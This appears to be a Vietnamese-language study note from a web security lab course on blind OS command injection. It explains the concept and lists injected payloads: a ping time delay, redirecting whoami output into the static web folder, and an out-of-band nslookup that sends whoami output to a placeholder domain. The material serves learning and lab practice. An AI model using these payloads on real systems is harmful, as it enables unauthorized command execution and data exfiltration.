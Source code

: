 - Chỉ cần xem được tên người dùng là đã hoàn thành bài lab
    
    ![image.png](/OS%20command%20injection/images/image%204.png)
    

# **Blind OS command injection vulnerabilities**

- Blind OS Command Injection là một dạng tấn công mà kết quả của lệnh không hiển thị trực tiếp trên phản hồi HTTP. Điều này khiến việc khai thác khó khăn hơn, nhưng vẫn có thể thực hiện bằng các kỹ thuật khác.
- Ví dụ về **Blind OS command injection**
    - Giả sử một trang web có tính năng gửi phản hồi qua email. Ứng dụng phía server gọi lệnh `mail` để gửi email, như sau:
        
        ```
        mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
        ```
        
    - Nếu ứng dụng bị tấn công bằng OS command injection, nhưng phản hồi không hiển thị kết quả thực thi lệnh, hacker phải tìm cách khác để kiểm tra xem lệnh có chạy hay không.
- Kỹ thuật phát hiện **Blind OS command injection** bằng **Time Delay**
    - Một cách phổ biến là sử dụng **lệnh gây trễ thời gian**, chẳng hạn như `ping`:
        
        ```bash
        & ping -c 10 127.0.0.1 &
        ```
        
    - Lệnh này sẽ gửi 10 gói tin ICMP đến **localhost** (127.0.0.1), khiến server chờ 10 giây. Nếu ứng dụng mất thêm thời gian để phản hồi, chứng tỏ lệnh đã được thực thi, xác nhận lỗ hổng tồn tại.
- Khai thác **Blind OS command injection** bằng cách chuyển hướng đầu ra (**redirecting output)**
    - Nếu ứng dụng phục vụ tài nguyên tĩnh từ vị trí hệ thống tệp `/var/www/static`, có thể gửi đầu vào sau để bypass:
        
        ```bash
        & whoami > /var/www/static/whoami.txt &
        ```
        
    
    → Ký tự `>` gửi đầu ra từ lệnh **whoami** đến tệp đã chỉ định
    
- Khai thác **Blind OS command injection** bằng kỹ thuật ngoài bằng tần (**out-of-band)**
    - Sử dụng câu lệnh được chèn để kích hoạt tương tác mạng ngoài băng tần với hệ thống domain đang tương tác
        
        ```bash
        & nslookup `whoami`. [FAKE DOMAIN] &
        ```
        